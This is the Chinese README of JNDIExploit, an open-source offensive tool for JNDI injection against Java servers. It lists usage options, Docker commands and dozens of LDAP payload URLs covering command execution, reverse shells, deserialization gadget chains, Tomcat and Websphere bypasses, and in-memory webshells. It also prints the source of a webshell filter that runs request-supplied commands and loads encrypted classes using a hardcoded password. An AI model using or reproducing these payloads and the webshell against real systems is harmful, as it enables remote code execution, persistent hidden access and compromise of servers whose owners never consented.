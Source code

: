 # JNDIExploit
一款用于 ```JNDI注入``` 利用的工具，大量参考/引用了 ```Rogue JNDI``` 项目的代码，支持直接```植入内存shell```，并集成了常见的```bypass 高版本JDK```的方式，适用于与自动化工具配合使用。

## 使用说明

使用 ```java -jar JNDIExploit.jar -h``` 查看参数说明，其中 ```--ip``` 参数为必选参数

```
Usage: java -jar JNDIExploit.jar [options]
  Options:
  * -i, --ip       Local ip address
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8080)
    -u, --usage    Show usage (default: false)
    -h, --help     Show this help
```

## Dockerfile
```bash
git clone https://github.com/feihong-cs/JNDIExploit.git
cd ./JNDIExploit
docker build -t jndiexploit .
docker run -it \
    -p 1389:1389 \
    -e LDAP_PORT=1389 \
    -p 80:80 \
    -e HTTP_PORT=80 \
    jndiexploit
```

使用 ```java -jar JNDIExploit.jar -u``` 查看支持的 LDAP 格式
```
Supported LADP Queries
* all words are case INSENSITIVE when send to ldap server

[+] Basic Queries: ldap://127.0.0.1:1389/Basic/[PayloadType]/[Params], e.g.
    ldap://127.0.0.1:1389/Basic/Dnslog/[domain]
    ldap://127.0.0.1:1389/Basic/Command/[cmd]
    ldap://127.0.0.1:1389/Basic/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/Basic/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/Basic/TomcatEcho
    ldap://127.0.0.1:1389/Basic/SpringEcho
    ldap://127.0.0.1:1389/Basic/WeblogicEcho
    ldap://127.0.0.1:1389/Basic/TomcatMemshell1
    ldap://127.0.0.1:1389/Basic/TomcatMemshell2  ---need extra header [Shell: true]
    ldap://127.0.0.1:1389/Basic/JettyMemshell
    ldap://127.0.0.1:1389/Basic/WeblogicMemshell1
    ldap://127.0.0.1:1389/Basic/WeblogicMemshell2
    ldap://127.0.0.1:1389/Basic/JBossMemshell
    ldap://127.0.0.1:1389/Basic/WebsphereMemshell
    ldap://127.0.0.1:1389/Basic/SpringMemshell

[+] Deserialize Queries: ldap://127.0.0.1:1389/Deserialization/[GadgetType]/[PayloadType]/[Params], e.g.
    ldap://127.0.0.1:1389/Deserialization/URLDNS/[domain]
    ldap://127.0.0.1:1389/Deserialization/CommonsCollectionsK1/Dnslog/[domain]
    ldap://127.0.0.1:1389/Deserialization/CommonsCollectionsK2/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/Deserialization/CommonsBeanutils1/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/Deserialization/CommonsBeanutils2/TomcatEcho
    ldap://127.0.0.1:1389/Deserialization/C3P0/SpringEcho
    ldap://127.0.0.1:1389/Deserialization/Jdk7u21/WeblogicEcho
    ldap://127.0.0.1:1389/Deserialization/Jre8u20/TomcatMemshell1
    ldap://127.0.0.1:1389/Deserialization/CVE_2020_2555/WeblogicMemshell1
    ldap://127.0.0.1:1389/Deserialization/CVE_2020_2883/WeblogicMemshell2    ---ALSO support other memshells

[+] TomcatBypass Queries
    ldap://127.0.0.1:1389/TomcatBypass/Dnslog/[domain]
    ldap://127.0.0.1:1389/TomcatBypass/Command/[cmd]
    ldap://127.0.0.1:1389/TomcatBypass/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/TomcatBypass/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/TomcatBypass/TomcatEcho
    ldap://127.0.0.1:1389/TomcatBypass/SpringEcho
    ldap://127.0.0.1:1389/TomcatBypass/TomcatMemshell1
    ldap://127.0.0.1:1389/TomcatBypass/TomcatMemshell2   ---need extra header [Shell: true]
    ldap://127.0.0.1:1389/TomcatBypass/SpringMemshell

[+] GroovyBypass Queries
    ldap://127.0.0.1:1389/GroovyBypass/Command/[cmd]
    ldap://127.0.0.1:1389/GroovyBypass/Command/Base64/[base64_encoded_cmd]

[+] WebsphereBypass Queries
    ldap://127.0.0.1:1389/WebsphereBypass/List/file=[file or directory]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/Dnslog/[domain]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/Command/[cmd]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/Command/Base64/[base64_encoded_cmd]
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/ReverseShell/[ip]/[port]  ---windows NOT supported
    ldap://127.0.0.1:1389/WebsphereBypass/Upload/WebsphereMemshell
    ldap://127.0.0.1:1389/WebsphereBypass/RCE/path=[uploaded_jar_path]   ----e.g: ../../../../../tmp/jar_cache7808167489549525095.tmp
```
* 目前支持的所有 ```PayloadType``` 为
  * ```Dnslog```: 用于产生一个```DNS```请求，与 ```DNSLog```平台配合使用，对```Linux/Windows```进行了简单的适配
  * ```Command```: 用于执行命令，如果命令有特殊字符，支持对命令进行 ```Base64编码```后传输
  * ```ReverseShell```: 用于 ```Linux``` 系统的反弹shell，方便使用
  * ```TomcatEcho```: 用于在中间件为 ```Tomcat``` 时命令执行结果的回显，通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```SpringEcho```: 用于在框架为 ```SpringMVC/SpringBoot``` 时命令执行结果的回显，通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```WeblogicEcho```: 用于在中间件为 ```Weblogic``` 时命令执行结果的回显，通过添加自定义```header``` ```cmd: whoami``` 的方式传递想要执行的命令
  * ```TomcatMemshell1```: 用于植入```Tomcat内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```TomcatMemshell2```: 用于植入```Tomcat内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```, 使用时需要添加额外的```HTTP Header``` ```Shell: true```, **推荐**使用此方式
  * ```SpringMemshell```: 用于植入```Spring内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```WeblogicMemshell1```: 用于植入```Weblogic内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```WeblogicMemshell2```: 用于植入```Weblogic内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```，**推荐**使用此方式
  * ```JettyMemshell```: 用于植入```Jetty内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```JBossMemshell```: 用于植入```JBoss内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
  * ```WebsphereMemshell```: 用于植入```Websphere内存shell```， 支持```Behinder shell``` 与 ```Basic cmd shell```
* 目前支持的所有 ```GadgetType``` 为
  * ```URLDNS```
  * ```CommonsBeanutils1```  
  * ```CommonsBeanutils2```
  * ```CommonsCollectionsK1```
  * ```CommonsCollectionsK2```
  * ```C3P0```
  * ```Jdk7u21```
  * ```Jre8u20```
  * ```CVE_2020_2551```
  * ```CVE_2020_2883```
* ```WebsphereBypass``` 中的 3 个动作：
  * ```list```：基于```XXE```查看目标服务器上的目录或文件内容
  * ```upload```：基于```XXE```的```jar协议```将恶意```jar包```上传至目标服务器的临时目录
  * ```rce```：加载已上传至目标服务器临时目录的```jar包```，从而达到远程代码执行的效果（这一步本地未复现成功，抛```java.lang.IllegalStateException: For application client runtime, the client factory execute on a managed server thread is not allowed.```异常，有复现成功的小伙伴麻烦指导下）

## ```内存shell```说明
* 采用动态添加 ```Filter/Controller```的方式，并将添加的```Filter```移动至```FilterChain```的第一位
* ```内存shell``` 的兼容性测试结果请参考 [memshell](https://github.com/feihong-cs/memShell) 项目
* ```Basic cmd shell``` 的访问方式为 ```/anything?type=basic&pass=[cmd]```
* ```Behinder shell``` 的访问方式需要修改```冰蝎```客户端（请参考 [冰蝎改造之适配基于tomcat Filter的无文件webshell](https://mp.weixin.qq.com/s/n1wrjep4FVtBkOxLouAYfQ) 的方式二自行修改），并在访问时需要添加 ```X-Options-Ai``` 头部，密码为```rebeyond```

植入的 Filter 代码如下：
```
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("[+] Dynamic Filter says hello");
        String k;
        Cipher cipher;
        if (servletRequest.getParameter("type") != null && servletRequest.getParameter("type").equals("basic")) {
            k = servletRequest.getParameter("pass");
            if (k != null && !k.isEmpty()) {
                cipher = null;
                String[] cmds;
                if (File.separator.equals("/")) {
                    cmds = new String[]{"/bin/sh", "-c", k};
                } else {
                    cmds = new String[]{"cmd", "/C", k};
                }

                String result = (new Scanner(Runtime.getRuntime().exec(cmds).getInputStream())).useDelimiter("\\A").next();
                servletResponse.getWriter().println(result);
            }
        } else if (((HttpServletRequest)servletRequest).getHeader("X-Options-Ai") != null) {
            try {
                if (((HttpServletRequest)servletRequest).getMethod().equals("POST")) {
                    k = "e45e329feb5d925b";
                    ((HttpServletRequest)servletRequest).getSession().setAttribute("u", k);
                    cipher = Cipher.getInstance("AES");
                    cipher.init(2, new SecretKeySpec((((HttpServletRequest)servletRequest).getSession().getAttribute("u") + "").getBytes(), "AES"));
                    byte[] evilClassBytes = cipher.doFinal((new BASE64Decoder()).decodeBuffer(servletRequest.getReader().readLine()));
                    Class evilClass = (Class)this.myClassLoaderClazz.getDeclaredMethod("defineClass", byte[].class, ClassLoader.class).invoke((Object)null, evilClassBytes, Thread.currentThread().getContextClassLoader());
                    Object evilObject = evilClass.newInstance();
                    Method targetMethod = evilClass.getDeclaredMethod("equals", ServletRequest.class, ServletResponse.class);
                    targetMethod.invoke(evilObject, servletRequest, servletResponse);
                }
            } catch (Exception var10) {
                var10.printStackTrace();
            }
        } else {
            filterChain.doFilter(servletRequest, servletResponse);
        }

    }
 ```
 
 ## 参考
 * https://github.com/veracode-research/rogue-jndi
 * https://github.com/welk1n/JNDI-Injection-Exploit
 * https://github.com/welk1n/JNDI-Injection-Bypass
